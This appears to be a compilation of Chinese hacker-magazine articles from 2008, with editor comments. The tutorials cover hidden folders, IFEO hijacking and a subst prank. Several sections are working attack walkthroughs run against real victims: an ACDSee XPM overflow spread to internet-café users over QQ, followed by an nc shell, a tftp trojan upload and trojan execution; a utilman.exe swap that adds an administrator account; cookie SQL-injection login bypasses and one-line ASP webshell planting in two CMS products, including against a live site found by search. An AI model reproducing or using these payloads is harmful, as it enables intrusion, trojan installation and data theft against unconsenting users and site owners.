> VNC（Virtual Network Computing，虚拟网络计算）最早是一套由英国剑桥大学 ATT 实验室在 2002 年开发的轻型远程控制计算机软件，采用了 GPL 授权条款，任何人都可免费取得该软件。VNC 软件主要由两个部分组成：VNC Server 及 VNC Viewer。用户需先将 VNC Server 安装在被控制的计算机上之后，才能在主控端执行 VNC Viewer 控制被控端。

### 尾声

应用，如果有可能，我会写一个后续版本着重讲一下 VMware 的网络。

> 【文中涉及到的工具 VMware 6 及汉化包在光盘中有收录】

> 编辑点评：
>
> 这篇文章算是对 VMware 这款经典的虚拟机软件的基本应用做了一个总结，同时加入了 VMware 6 这个版本的一些新特性，比如映射虚拟机操作系统的磁盘。作为黑客，虚拟机软件也算是必备软件之一，像作者所说的，我们可以在虚拟机上做各种危险的测试，或者模拟网络环境。就算是系统崩溃了，类似 VMware 的快照功能也能快速恢复操作系统。没有玩过 Linux 的朋友也可以在虚拟机上安装 N 个不同发行版本的 Linux，并且可以同时开 N 个 OS，很方便地在 Win 和 Linux 或其它 OS 之间切换，我觉得这是最让人觉得不错的地方。总之 VMware 大家一定要玩玩哦！

## Windows 下建立隐藏文件夹

从本文中你可以学到：

- 如何在 FAT32 分区里建立隐藏文件夹

首先声明一下，此方法仅对 FAT32 格式的分区有效，NTFS 格式的分区不适用。大家都熟知了在 Windows 命令行下用 `MD S..\` 建立的文件夹，`S.` 虽然是可见的，但是直接双击打开是不允许访问的，我们又知道如果在一个文件夹下用列目录命令 `DIR` 查看该文件夹下目录时，会看到 `.` 和 `..` 文件夹，那么如果我们在命令行下输入 `MD ...\` 会不会建立一个名为 `..` 的文件夹呢？

结果实践证明了我的想法，例如我们在命令行下的 `C:\1\` 文件夹下输入 `MD ...\`（注意不能在磁盘根目录下建立），命令执行成功，我们再用 `DIR` 查看 C 盘下 1 文件夹的目录时会看到有两个 `..` 的文件夹，如图 1。
在 Windows 资源浏览器上是看不到我们刚才建立的这个隐藏文件夹的，在地址栏里直接输入文件夹的路径 `C:\1\..\`，访问的就是它的上层文件夹，也就是 C 盘根目录，因为 `..\` 被解析成了上层文件夹的意思；如果输入路径 `C:\1\...\` 提示路径不存在，同样在命令行下也无法用 `CD ..\` 或者 `CD ...\` 来进入这个文件夹，这就初步实现了我们的隐藏目的。现在我们再来说怎么把需要隐藏的文件移到进去，我们在 `C:\1` 下用 `copy 1.exe ..\1.exe`（两个点）把 `1.exe` 复制到了 C 盘根目录下；用 `copy 1.exe ...\1.exe`（三个点）提示找不到系统路径，但是用 `copy 1.exe e...\1.exe`（三个点）却能成功把 `1.exe` 复制进我们的隐藏文件夹；但是用 `move 1.exe ...\1.exe`（三个点）是把 `1.exe` 移动到了 C 盘根目录下，我怎么想也想不通为什么复制命令可以，移动命令却不行，请高手指点下。我们同样可以把放进隐藏文件夹的文件，通过 `copy ...\1.exe 1.exe` 复制出来。还有一个更值得一提的是，我们查看 C 盘下 1 文件夹的容量时，看到的依然是 0 字节，这样用这个隐藏文件夹就可以基本实现我们隐藏备份重要隐私文件的功能了。然而如果我们忘记隐藏在这个文件夹放的文件名，怎么办？卖个关子，先吃中午饭去，一会儿再告诉大家。

发现这个方法后，我就在想，在 Windows 下看不到这个文件夹，那在纯 DOS 下呢？进入 DOS，用 `DIR` 果然可以看到 1 文件夹下有个 `E2E2~1` 文件夹，`...` 的 ASCII 码值是 `2E`，进入 `E2E2~1` 这个文件夹也可以看到我们隐藏的文件，再进入 Windows 资源管理器下不可以打开 `C:\1\E2E2~1\`。用资源管理器打开，结果失败；用命令行进入，成功了，如图 2。
在命令行输入 `start C:\1\E2E2~1`，或者在“运行”里输入 `C:\1\E2E2~1\`，都可以进入我们的隐藏文件夹，这时可以方便地使用复制粘贴来拷贝文件了。你也可以先建立一个 `E2E2~1` 的文件夹，那么再用 `md ...\` 建立出来的隐藏文件夹就是 `E2E2~2` 了，依次类推。这样我们可以用批处理完成，假设我们想要得到一个 `E2E2~1-199` 的隐藏文件夹，可以执行以下命令来完成；删除的话用这个命令：

```bash
for /l %i in (1 1 199) do md e2e2~%i
for /l %i in (1 1 199) do rd e2e2~%i


```

这样你的隐藏文件夹的名字就不会被人猜到了，这个方法基本实现了 Windows 下较完美隐藏文件。小弟愚拙，不当之处，请各位大虾指正！

> 编辑点评：
>
> 通过以 `.` 为名来建立隐藏文件夹，有效地避免了一般类似 `S.` 的隐藏文件夹在资源管理器下可见的缺点。而经过我的实验，发现在驱动器根目录下也是可以使用 `md ...\` 建立隐藏文件夹的，不过建议最好别这么做，因为根目录没有上层目录嘛！不过一般在文件夹中建立这样的隐藏文件夹，也是可以在 cmd 下看出破绽的，就是有两个 `..` 目录，另外还有作者说的纯 DOS 下。大家快去耍耍吧，也许还有更好的方法哦！

## ACDSee 朗科溢行网络
从本文中你可以学到：

- 1. ACDSee 缓冲区溢出漏洞的利用
- 2. nc 的简单使用
- 3. tftp32 上传文件的方法

## 挂马完全课堂手册 2008.02→【9版黑客】

ID_PSP.apl 和 AM_LHA.apl 插件在处理 XBM/XPM/PSP/LHA 文件时存在缓冲区溢出漏洞，如果用户受骗打开了带有超长字符串的 XBM/XPM/PSP/LHA 文件的话，就可能触发这些溢出，导致执行任意指令。ACDSee 10 以下的版本可都有这个致命的漏洞哦，这次我就遇到了这种情况。这个危险的漏洞据官方报道，影响的软件是 ACDSee Photo Manager 9.0 和 ACDSee Photo Manager 8.1。废话不多说了，看看笔者的经历吧。

那次我进了一个离家较远的网吧，比较新鲜，便在机子硬盘里乱翻，发现装的软件是相当齐全的，Microsoft Office、Photoshop、Dreamweaver 都装了，然后我便发现了 ACDSee 8.1 的身影，如图 1。
我心中一喜，这个漏洞可以派上用场了！毕竟对于这些大软件，一般用户是很少更新的，更别提在装了还原卡的网吧里了。开始工作吧！

首先下载我们需要的 ACDSee XPM 文件溢出利用工具，将其放到一个文件夹中，然后打开“记事本”程序，在其中输入如下的代码：**acdsee.exe 1 test.xpm**，然后保存为一个批处理文件 1.bat，如图 2。接着也将利用工具 acdsee.exe 放到同一个文件夹中。现在双击运行 1.bat，就会在这个目录下面生成一个名字为 test.xpm 的文件了，这个 XPM 文件是默认被 ACDSee 程序关联打开的，如图 3。
> 小提示：使用这个 bat 文件是为了执行命令的方便，你也可以在 cmd 中进入到这个目录中，然后执行 **acdsee.exe 1 test.xpm**，效果是一样的。

先在本机上测试一下吧，双击这个 XPM 文件，打开了可爱的 ACDSee 窗口。呀，ACDSee 死住了！这就是溢出的结果了，说明我们成功了。下面只有在“任务管理器”里把 ACDSee 终结了。下面点击“开始”→“运行”，输入 cmd 后回车，打开“命令提示符”窗口。在其中输入 **netstat -an** 命令来查看本机的端口开放情况。看见了吗？4444 端口打开了，并且处于监听状态，如图 4。
> 小提示：这个 XPM 文件的传播可以依赖网吧的公共上传区，也可以用 QQ 的网吧功能哦，点击 QQ 面板左边的“同吧”按钮，就可以看到你所在的这个网吧里所有的 QQ 用户了，如图 5；传给他们吧。

玩了一会儿游戏，该有人打开了吧？试试吧。我选中了一个发过去的目标，用“端口扫描器”小扫一下，果然 4444 打开着啊，如图 6。
然后该祭出黑客必备利器——瑞士军刀 NC 来连接肉鸡以实现我们的计划了。下载 NC，将其放在一个文件夹下，如上面说的，打开“记事本”程序，在其中输入如下的代码：**nc 192.168.0.151 4444**（192.168.0.151 是目标肉鸡的 IP 地址，4444 就是它打开的待接端口喽），然后保存为一个批处理文件 2.bat，和 nc.exe 放在同一个目录里。双击运行 2.bat 这个文件，看见了？我们的 NC 顺利地连接上了肉鸡，如图 7。
返回了一个 CMDShell，现在我们在这个窗口里的操作就等同于在肉鸡上执行命令了，嘿嘿。该是上传木马的时候了，总不能什么都在这个命令提示符里操作吧，多不方便啊。说到上传木马，黑客最常用的就是 tftp 上传了，但是小菜们可能还不太熟悉 tftp 的使用，下面我来详细操作一下。

首先，制作一个木马客户端，比如用灰鸽子，生成后把文件名改为 muma.exe，留着备用，具体的制作过程我就不多说了，小 CASE 嘛！然后，下载“TFTPD32”这款软件，如图 8。把它和我们要上传的木马 muma.exe 放到同一个目录下，如图 9。
运行 tftp32 之后就会自动在本机搭建一个 TFTP 服务器了。最后，将 TFTPD32 最小化，在刚刚得到的 CMDShell 里输入如下命令并回车确定：**tftp -i 192.168.0.149 get muma.exe D:\muma.exe**，就可以看到上传成功的显示了，如图 10。
图 10 上传成功

> 小提示：192.168.0.149 是我这台电脑的 IP 地址，这命令的作用是把本机上的和 TFTPD32 在同一目录下的 muma.exe 上传到 192.168.0.151 上，并且放置到 D:\ 下。如果 muma.exe 不是和 TFTPD32.exe 放在同一目录下的话，也可以把上句中的 muma.exe 换成绝对路径，比如 C:\windows\muma.exe，一样可以成功上传。

该在他的机上运行木马了，输入命令 muma.exe 即可，呵呵，喝杯饮料安心地等着马儿上线吧。过了一会儿，马儿果然上线了，至此，一次完整的漏洞利用及入侵过程就结束了，大家请到 http://hi.baidu.com/biweilun/blog/item/a35993ca804f4185c91768b5.html 下载所有工具。

> [文章中涉及到的 acdsee.exe、nc.exe、tftp.exe 及端口扫描器在光盘中有收录]

**编辑点评：** 这篇文章展现给了大家一个经典的入侵步骤：缓冲区溢出漏洞入侵获得 cmdshell，使用 tftp 上传木马服务端，在 cmdshell 中执行木马服务端，获得内网的管理权。虽然技术在发展，但很多老的方法还是很好用的。作者的入侵很顺利，而我们在实操时可能遇到这样那样的问题，其中大多数还是防火墙造成的。我们在关注 OS 漏洞的同时不要忘记一些经常使用的软件，它们的漏洞也不在少数哦！

## 浅谈映像劫持的另类应用
- 从本文中你可以学到：
- 利用映像劫持阻止执行 cmd

大家应该都知道映像劫持这个名词吧，想必大家都对映像劫持十分痛恨，但是从另一方面来看，映像劫持也并非一无是处，如果运用得当，还能保护我们的系统。

映像劫持是通过修改 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 这个项的值来达到劫持某个程序的目的，其实在网吧中，映像劫持是一种不错的防护措施。例如我们这些菜鸟，上网吧的时候总是想方设法地破解网管软件，而破解时或多或少要用到 bat 批处理文件，鉴于 bat 是通过 CMD 来运行的，我们可以对 CMD 实行映像劫持。打开记事本，输入如下代码并保存为 REG 文件：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\cmd.exe]
"Debugger"="D:\\加密龙.bat"


```

这样，我们就成功地对 CMD 实行了映像劫持，效果如图 1 所示。
图 1 找不到 cmd

当然，这种方法并不是非常好，很容易让人起疑心，那么有什么好一点的办法来进行伪装呢？VBS 是一个不错的选择，我们可以利用 VBS 来编写一个与网吧禁用 CMD 类似的提示窗口，以达到掩人耳目的效果。

启动记事本，输入以下代码并保存为 VBS：

```vb
MsgBox "命令提示符已被管理员禁用！", vbExclamation, "警告"


```

最后使用 VBS2EXE 软件将这个 VBS 脚本转换为 EXE 程序，然后使用映像劫持技术来劫持 CMD，使其跳转到这个 EXE 文件上，然后在我们运行 bat 批处理文件时就会出现如图 2 所示的提示。
图 2 出现事先设置好的错误提示

这个时候小菜们一定想着下载精锐网吧辅助软件，当然，直接使用“恢复所有限制并立即生效”是不可能解决问题的。如果再对当前用户设置权限，使之对镜像劫持的这个键值为禁止修改，这样就给破解者又添了一道屏障。

> [文章中涉及到的注册表脚本、vbs 文件及 vbs2exe 光盘中有收录]

**编辑点评：** 镜像劫持是利用简单但威力很大的一种利用手法，这次作者利用它来禁止 cmd 的执行，这在网吧中的确比较多见。修改注册表禁用某程序安全多了，也更妙了。在我的实验中发现，劫持后要执行的程序不能是 vbs，所以将 vbs 脚本转为 exe 文件很必要，我们也可以用 WinRAR 的自解压功能制作。但这样做的一个破绽就是，当错误提示弹出来的时候，任务栏会出现 vbs 脚本或 vbs2exe 的图标，并且用注册表禁用 cmd 后提示也不是这样伪装！要想更具有迷惑性，用一个批处理就够了嘛！有兴趣的朋友继续做下去吧！

## 凭“U”逆系统
- 从本文中你可以学到：
- 利用热键突破 Windows 系统登录

不知道大家有没有遇到过这些情况：要使用电脑却发现忘了登录口令，想用别人电脑玩下游戏却发现要输入密码，或者好不容易登录后却发现没有任何权限！如果你被以上问题所困扰，请一定要认真阅读本文章，因为本文将教你如何摆脱以上烦恼！（小编：还以为你要做什么广告）

“辅助工具管理器”，如果没用过现在可以试一试：按住键盘上的 WIN 徽标键 + 字母“U”就可以把该工具调出来，如图 1。但是这似乎跟主题没关系啊，不要慌，今天要用到的就是它！其实这个程序在用户没有登录系统的时候也可以用快捷键运行，如图 2。
既然它可以不用登录系统就可以运行，那么我们只要把这个程序换成想运行的程序，比如木马，或添加管理员的工具，就可以达到越权登录后台和直接添加系统管理员的目的！“辅助工具管理器”是在系统目录“c:\windows\system32”下名为 **utilman.exe** 的可执行程序，由于受系统的保护，即便是有管理员的权限都修改不了系统目录下的文件，所以只有在不启动 Windows 的情况下替换程序！（编辑：这样说不严谨，是因为 Windows 系统文件保护在作祟）我的方法是使用 U 盘，现在的电脑大部分都支持 U 盘启动，只要把 U 盘做成一个启动盘，再把要用的程序放进去，一个“COPY”命令就可以轻松搞定！
既然思路已经清楚了，就来说说具体的步骤：首先要准备替换“辅助工具管理器”的程序，程序很简单，就几句代码，主要功能是添加一个系统管理员！代码如下：

```c
#include <stdlib.h>   /* 包含头文件 stdlib.h 和 stdio.h */
#include <stdio.h>

int main(void)        /* 主函数 */
{
    system("net user admin 123456 /add");
    /* 调用 SYSTEM() 函数发出一个 cmd 命令添加一个账号 */
    system("net localgroup administrators admin /add");
    /* 将账号添加到管理员组中给予系统管理员的权限 */
    return 0;
}
```

代码编译好以后生成一个可执行程序，然后名字改为和“辅助工具管理器”一样的名字“utilman.exe”。准备好替换程序以后还可以写一个批处理程序以方便在 DOS 下复制程序，下面是代码：

```bat
@echo off
rem 隐藏路径
copy utilman.exe c:\windows\system32\utilman.exe
rem 替换系统目录下的 utilman.exe
echo 重启进入到登录界面，按“WIN”键+“U”，然后就可以使用账号：admin 密码：123456 登录系统。注：此账号具有系统权限！
pause


```

把以上代码保存为 shell.bat，然后和 utilman.exe 存放在一起！第二步准备启动盘，可以使用 usboot 来制作一个 U 盘启动盘（制作步骤就不写了，很简单的，大家照着提示做就可以了），然后把刚才写的两个程序放到启动盘里！第三步，重启电脑进入 BIOS 选择启动方式，如果是使用 usboot 来做的 U 盘启动盘，可以根据制作的格式选择“USB-HDD”和“USB-ZIP”等启动方式！引导系统进入 DOS 下后进入 U 盘的盘符下，执行刚才写的批处理程序 shell.bat，待屏幕显示“已经复制一个文件”后就可以重启电脑了。

来到登录界面下，激动人心的时刻到了，现在按下键盘上的 WIN 徽标键 + U，如果不出意外的话屏幕上什么都不会显示，接着按两次“CTRL+ALT+DEL”转换到输入账号密码的登录界面，输入我们添加的账号“admin”，密码“123456”，如图 3。
点确定后便可以成功登录系统。进入系统后“Windows 文件保护”程序会提醒你所需的程序已经被替换，是否要还原（有的系统不会提示，直接就把程序还原了，至少我用的系统就是），如图 4。其实现在还不还原已经无所谓了！如果你觉得不放心，可以在批处理程序里加一句 COPY 命令把系统原来的 utilman.exe 备份一下，需要的时候再恢复即可！现在看看这个用户的权限，如图 5。
从图 5 中可以看到刚刚添加的用户“admin”已经具有了管理员的权限，到此成功绕过管理员密码登录系统！

下面来说一下细节问题，有些系统是安装在 NTFS 格式下的，如果要替换程序需要使用 DOS 下的 NTFS 目录访问工具才能看到系统目录，否则会找不到路径，而且要注意系统所在盘的盘符，像图 6 中系统所在盘已经变成了 E 盘。
如果你觉得把 U 盘做成启动盘很麻烦，也可以用系统盘来引导系统进入 DOS，然后把需要的程序放到 U 盘里再复制到硬盘里！其实有一款 DOS 工具（一般现在的系统盘都带得有）可以直接清除系统口令，这样可以实现登录系统！不过这个工具是把密码给清除了，这样计算机管理员若发现……总之要根据自己的实际情况！文中这两段代码在 VC 下编译通过，添加管理员账号的程序在 Windows SP2 下测试通过，测试过程在 NTFS 和 FAT32 格式下都通过！

> [文章中涉及到的添加用户的程序及批处理光盘中有收录]

## 编辑点评：

经过前几期的几篇文章对挂机、辅助工具管理器、放大镜的种种利用的介绍，这篇文章应该更加直观。前面几篇文章的利用多少都有些限制，而这篇文章通过使用启动盘进入 DOS，然后替换系统文件，真正达到了在登录前添加用户的目的。当然这样做的前提是你可以物理接触被攻击主机，在网络上利用起来的话就比较麻烦了。
## 整蛊专案之 U 盘惊魂
- 从本文中你可以学到：
- subst 命令的用法

故事背景：某年某月某天，我来到一台电脑前，帮别人修电脑，当我插上我的 U 盘时，发生了一件恐怖的事情：U 盘被格式化了，一切都在不知不觉中。凶手还在对我哈哈大笑，如图 1。
当我回到家时，发现 U 盘的文件又自动回来了，原来我被人耍了，气愤之余，弄懂原理才是正道。开始以为是恶作剧病毒，但在百度上找了很久也没有此类信息，所以只好自己研究。事情过去了一个月了，有一次无聊至极，打开“CMD”输入“help”列出所有命令，本来是去学在“CMD”下重命名文件的，突然发现一条叫做“subst”的命令。真是踏破铁鞋无觅处，得来全不费功夫，原来是它在搞鬼。

```text
subst [drive1: [drive2:]path]


```

先讲下它的用法：subst [drive1: [drive2:]path]，翻译：“subst 虚拟驱动器名称 物理驱动器路径”。举例：subst z: f:\test（注：f:\test 是一个空目录）。现在你会发现“我的电脑”里多了个 Z: 盘，操作和正常的驱动器一样，但不能格式化和改名字，其实这个 Z: 盘就是你的 f:\test 目录，只是给它一个名称，所以叫虚拟驱动器，如图 2。
技术就是双刃剑，当反过来用时就可以用来整人了。先把你的 U 盘插上，看着你的 U 盘盘符是多少（我的是 H:）。再按下来，执行“subst h: f:\test”后再次插上你的 U 盘，你会发现本来在“硬盘”栏里的“H:”来到了“可移动存储”栏来了。双击可移动磁盘，来到了 f:\test 目录，如果在 f:\test 下放个“警告.txt”再加上吓唬人的话，就出现了文章开头的那一幕恐怖画面。
这招吓人真好，除非你比较细心，才能发现一点破绽，如图 3。

U 盘有 20 多 GB，除了这点，再找不到破绽了。如果你的电脑不想共享给别人用 U 盘，这招很好哦。但是重启后就消失了，所以写个批处理文件拉到“启动”里就能解决问题。

差点忘了，不说下解除的方法，自己也用不了 U 盘。直接在“CMD”下运行“subst”能看到指派的情况，如图 4。
```text
subst drive1: /D

例：subst h: /d
```

删除的方法是：subst drive1: /D。例：“subst h: /d”就删除了虚拟的 H: 盘，U 盘文件就恢复了。学打仗至少得把手中的武器了解吧，不要被这种 Windows 的系统命令给玩弄了。此念之所得也。

> 编辑点评：

这个命令大家接触得比较少吧，我们在网吧如果网管隐藏了驱动器的话，我们就可以用这个命令把想浏览的目录映射为虚拟驱动器。不过作者提到的这个竟然能把 U 盘“屏蔽”，实在是意外的发现，学习了。

## 终点小说系统安全漏洞分析与利用

从本文可以学到：

- 1. 终点小说系统安全分析
- 2. 实际利用

大家好，前段时间迷上网络小说了，刚好朋友也想弄个网络小说的站点，让我帮忙弄套小说程序，我在源码站上找了个小说程序，发现“终点小说系统”这套程序不错，排行榜上排名第一，而且有很多比较实用的功能，就下了一套到本机电脑上进行测试，发现功能非常不错，但是安全性一般，有些致命漏洞，于是就有了本文的内容。

### 一、漏洞篇

首先，在本机搭建起环境，程序是 asp+access 数据库的，全部配置好，站点可以正常运行，开始漏洞测试了。

```asp
<!-- #include file="session.asp" -->


```## 2008.02—【新闻练练看】
图1 session.asp 文件内容

我们先来了解一下 Session.asp 文件是怎么对用户进行验证的，它先判断 cookie 里：admininfo_loginname、admininfo_logname、admininfo_adminclass 三个变量的值是否为空，如果为空就直接跳转到登录页面进行登录；不为空，就继续往下走，再取出 cookie 里 admininfo_logname 变量的值，在 admin_user 表里进行查询，如果没有记录，就把 admininfo_loginname、admininfo_logname、admininfo_adminclass、admininfo_logpassword、admininfo_loginclass 五个变量的值赋空；如果查询出记录，就把记录里的 password 值和 cookie 里 admininfo_logpassword 变量的值进行对比，如果符合，就通过验证，不符合，就跳转到登录页面进行登录。

知道了 session.asp 文件对用户的验证过程，下面开始想办法绕过验证。首先，判断用户 cookie 里 admininfo_loginname、admininfo_logname、admininfo_adminclass 三个变量的值是否为空，这个好办，可以随便构造些值。接下来，看看最重要的，怎么能让记录里的 password 值和 cookie 里 admininfo_logpassword 变量的值一样呢？程序对 cookie 里带入的用户名都没有进行过滤，存在 cookie 注入漏洞，我们可以利用 union 联合查询，查出 password。下面，我们来看看怎样构造这次 union 联合查询语句。admin_user 表字段有 9 个，union 查询填充 9 个值，我们把 cookie 变量 admininfo_logname 的值变成：admininfo_logname=jackal' union select 1,2,3,'4',5,6,7,8,9 from admin_user where '1'='1'，session.asp 文件里的查询语句结合在一起，就成了“select * from [admin_user] where username='jackal' union select 1,2,3,'4',5,6,7,8,9 from admin_user where '1'='1'”，刚好 password 查出来对应就是 4，然后，cookie 里 admininfo_logpassword 变量的值也变成 4，即 admininfo_logpassword=4，这样不用知道管理员密码就可以成功绕过后台验证页面。

再来看看 admin 文件夹下的 chkadmin.asp 文件，这个文件是用来验证登录管理员提交内容的，如果是管理员，它就会把 cookie 里的 admininfo_loginname、admininfo_logname、admininfo_adminclass、admininfo_logpassword、admininfo_loginclass 五个变量赋上相应的值，admininfo_adminclass=1 这个应该是赋予管理员权限。其它几个 cookie 变量的值，要在管理员登录成功后，把数据库里对应的值查出来赋给这个变量，但是 cookie 值是可以改变的，我们可以自己构造，绕过后台登录，直接进入后台页面。

```javascript
javascript:alert(document.cookie="CnendWeb=admininfo%5Flogname=rabbitsafe%27+union+select+1%2C2%2C3%2C%274%27%2C5%2C6%2C7%2C8%2C9+from+admin%5Fuser+where+%271%27%3D+%271&admininfo%5Flogpassword=4&admininfo%5Fadminclass=1&admininfo%5Floginclass=3&admininfo%5Floginname=1;");


```

下面，我们就在本机实例测试一次，看看效果吧。直接用 javascript 来提交 cookie 值，比较方便、容易。在 IE 输入上面的语句后，再输入 admin.asp 后台管理页面，就可以直接进行管理了，不用后台登录。
图2 直接登录失败

直接输入 http://127.0.0.1/admin/admin.asp，返回“您尚未登录或登录超时，请返回重新登录”界面，如图2。
图3 成功绕过登录

在 IE 里输入上面构造好的语句后，再访问 http://127.0.0.1/admin/admin.asp，成功进入后台管理页面，如图3。

现在，我们成功进入后台管理页面了，下面讲一讲怎么拿 webshell，方法有两种：

- 1. 第一种拿 webshell 方法

我们一起来看看 inc 文件夹下的 config.asp 文件，网站的配置信息都存放在这个文件里，我们可以在网站配置信息里写入一句话木马，这样一句话木马就直接写入 config.asp 文件里了。Config.asp 文件是以 “Sitename="test"” 这种形式存在的，那我就可以构造一句话木马，内容是 “test" %/><%Execute(Request("a"))%>”，写入 config.asp 文件后，就成了 “Sitename="test" %/><%Execute(Request("a"))%>”，就可以利用一句话木马客户端进行连接了。但是我在网站名称那里写入上面的内容后，出问题了，如图4。
图4 写入的内容被过滤了

一句话里的 “<%” 和 “%>” 没有了，难道对用户写入内容进行了过滤？写入网站配置文件是靠 admin 文件夹下的 admin_setup.asp 文件。看了代码，果然，它对用户输入的内容进行了简单过滤，但可以轻松绕过，如图5。
图5 写配置文件的逻辑

从代码中，我们可以看到它过滤掉了“<%”和“%>”，但是我们可以写入 “test"%/><<%Execute(Request("a"))%>>”，这样过滤掉“<%”和“%>”之后，就成了“test"%/><%Execute(Request("a"))%>>（Request("a")）%>”，直接访问 http://127.0.0.1/inc/config.asp，一句话木马写入成功，如图6。

然后，用一句话木马客户端成功写入大马，我就不演示了。

## 2、第二种拿 webshell 方法

下面来讲讲第二种拿 webshell 的方法。登录后台，大家可以看到有一个“数据库在线管理”的模块，这时大家肯定想到了把一句话木马改成图片的后缀名上传上去，然后利用数据库备份或还原的功能，把上传的一句话木马图片后缀名还原成 asp 格式。不错，这里也是这样做的，不过还是遇到点困难，下面讲讲详细情况。

首先，我们在添加作品里上传一个改了后缀名的一句话木马图片，提示上传的文件类型不对，可能上传文件对文件类型进行了读取，马上在文件头部加上“Gif89a”，再次上传，成功上传上去，记下上传的路径。然后，到“数据库在线管理”的模块里选择“备份数据库”功能，在当前数据库路径里输入刚才上传的一句话木马图片路径，在备份数据库名称里写上备份后的木马名称，我这里写 a.asp，点击“确定备份”，提示“为了安全，只允许备份 database 目录中的数据”。
难道程序对备份目录名进行了判断？马上找到备份数据库的文件，在 admin 文件夹下的 admin_datebaseback.asp 文件。从程序中“<input type=text size=30 name=DBpath value="../<%=DatabasPath%>/<%=sitidata%>" class="form">”和“If Lcase(Left(dbpath,Len(DatabasPath)+3))<>"../"&Lcase(DatabasPath)&""”两段代码可以看出，这个文件在对备份目录名进行判断，应该是检查备份的路径里是否有“databas”，如果有，就让备份，没有就不让。我们备份用的都是相对路径，应该可以跳转绕过，马上在备份目录里写上“../databas/../BackFace/2007122817142473386.gif”，算一下，还是跳转到了木马的文件路径，点击“确定备份”，提示备份成功，如图7。
利用一、二两种方法轻松拿到 webshell，具体过程，我就不讲了，前面已经介绍了详细的拿 webshell 方法，最后给大家看看拿到的 webshell，如图10。
在 IE 里访问 http://127.0.0.1/databackup/a.asp，备份文件存在，如图8。

有了上面讲的两种备份方法，我相信大家只要进入后台了，拿个 webshell，应该不成问题。
## 二、实战篇

我们通过本机搭建的程序进行了漏洞测试，下面一起到网上找个终点小说程序的站点看看，是否存在本机测试的漏洞。

在 http://www.google.com/ 里搜索关键字“Powered By CnEndWeb”，随便找一个站点，网站网址：http://www.xxx.cn/admin/index.asp。我们直接在地址栏里输入“javascript:alert(document.cookie="CnendWeb=admininfo%5Floginname=rabbitsafe%27+union+select+1%2C2%2C3%2C%274%27%2C5%2C6%2C7%2C8%2C9+from+admin%5Fuser+where+%271%27=%271%27&admininfo%5Flogpassword=4&admininfo%5Fadminclass=1&admininfo%5Floginclass=3&admininfo%5Floginname=1;")”，然后，再访问 http://www.xxx.cn/admin/admin.asp，成功登录系统后台，如图9。

## 三、总结篇

这套小说系统网上用的人还是很多的，主要的问题是没有对用户提交的内容进行过滤，可能写程序的人以为用户不会去更改 cookie 值，所以没有对 cookie 内容进行过滤。程序员应该认识到，不管用户提交什么内容，只要用户可以提交、可以改变，就应该当成危险内容，应该进行过滤。如果可能的话，尽量采用 session 验证，安全性更好。

关于那三种拿 webshell 的方法也是平常的方法。第一种方法中程序过滤掉了“<%”和“%>”，但是只过滤了一次，在遇到问题时，多看看代码，就知道为什么一句话木马只有部分写入了数据库里。第二种方法中，正常备份时不让备份，想想为什么会出现这种情况，原来是程序对备份目录名做了限制。

在渗透中，我们会遇到很多困难，只要你有耐心，在困难面前不低头，多想想为什么。程序是死的，人是活的，问题都在程序里，只要多想想、多看看，困难很容易就能克服。

## 四、补救篇

关于程序的补救，其实很简单，问题是出在 cookie 内容没有过滤，那我们只要对 cookie 变量里的“'”单引号进行过滤就 OK 了，再 replace 两次对 cookie 变量中的单引号进行过滤就行了。具体过滤的代码如下：

```asp
set rs=server.createobject("adodb.recordset")
dim admin_logname
admin_logname=request.cookies("CnendWeb")("admininfo_loginname")
admin_logname=replace(admin_logname,"'","''")
sql="select * from [admin_user] where username='"&admin_logname


```

文章中有什么不懂的，可以来黑客手册论坛找我，我的 ID 号是 rabbitsafe，或加我 QQ：3818718。

（文中用到的一句话木马已经收录在光盘中。）

> 编辑点评：
> 本文详细地分析了该小说系统的漏洞，分析和例子讲得都比较清晰。正如作者说的“代码是死的，人是活的”，遇到问题的时候，想下该问题是什么原因导致的，再对症下药，不要一看到结果和自己期待的不一致就放弃，或者转移注意力。

## 下载讯时CMS后台漏洞

- 从本文可以学到：
- 1. 讯时 CMS 漏洞分析
- 2. 漏洞实际利用过程

讯时网站管理系统是个永久开源免费且功能强大的系统，深受广大网民喜爱。自从某牛人三颂讯时之后就漏洞不断，2.9 版本也暴了三个安全漏洞，现在已经升级到 3.0 版本了，不过漏洞还是被我找到了，废话少说，入正题。
### 一、注射漏洞

出现漏洞文件：JS-XGXX.asp，这是个调试文件，代码如下：

```asp
webxgnews=trim(Request("xgnews"))
newsid=trim(Request("id"))

if (not isNumeric(NewsID)) then
    Response.Write "<Script Language=JavaScript>alert('！ID参数错误或有非法字符没提交参数，请勿随意提交数据！');</Script>"
    response.end
end if

Set xgrs = Server.CreateObject("ADODB.RecordSet")
xgrs.Open "select top 10 * from [news] where ( title like '%"&webxgnews&"%' or xgnews like '%"&webxgnews&"%' ) and id<>"&newsid&" order by id desc",conn,1,1
```

仅用 isNumeric 过滤了 id 参数，而 xgnews 却没有过滤，后面就直接查询了！这是一个搜索型注入。

不过，利用起来有限制，首先要确保 xgnews 参数后面的内容是可以搜索到的，如图1。

二是不能直接在 URL 后面加 `%’and exists(select * from admin) and '%'='` 这样的形式猜解，原因在数据库连接文件 admin_conn.asp 里面有：

```asp
sss=LCase(request.servervariables("QUERY_STRING"))
if instr(sss,"select")<>0 or instr(sss,"insert")<>0 or instr(sss,"delete")<>0 or instr(sss,";")<>0 or instr(sss,"u>")<>0 then
    response.write "<BR><BR><center>你的网址不合法！"
    response.end
end if


```

限制 GET 提交方式，不能存在 select、insert、delete 等关键字符！

前面未过滤参数 xgnews 是用 Request 直接获取的，所以 cookie 注入是首选。先测试一下：`javascript:alert(document.cookie="xgnews="+escape("2007%' and 1=1 and '%'='"));`，如图2、图3，返回相同。

再来：`javascript:alert(document.cookie="xgnews="+escape("2007%' and 1=2 and '%'='"));`，如图4、图5，返回不同了。

如上证实存在漏洞！本想用中转来提速的，可是这网吧卡得要命，转到一半就转不下去了，都闷。唯有把“1=1”换成猜解。
内容再折腾半天，慢慢猜了，我这猜的是“21232f297a57a5a743894a0e4a801fc3”，也就是“admin”，猜出了用户名和 md5 散列，几乎就是获得 webshell 了。讯时 CMS 存在 cookie 欺骗，在得到 md5 情况下可以直接进后台。
## 二、cookie 欺骗

